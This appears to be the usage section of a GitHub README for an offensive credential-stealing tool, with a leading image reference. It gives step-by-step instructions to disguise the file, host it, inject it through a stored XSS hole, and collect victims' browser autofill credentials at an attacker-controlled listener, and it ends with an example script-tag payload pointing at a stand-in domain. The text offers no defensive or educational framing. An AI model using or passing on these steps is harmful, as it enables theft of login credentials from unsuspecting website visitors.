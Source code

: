 ### Usage

1. Rename the file to something less obvious.
2. Configure a listener domain for your payload.
3. Update the YOUR_DOMAIN var with the appropriate listener domain.
4. Host the file on a public server.
5. Inject the stored XSS payload to load the malicious javascript.
6. Autofill credentials will be sent to your listening server.

### Example Payload
`<script src="http://PUBLIC_DOMAIN/abc.js></script>`
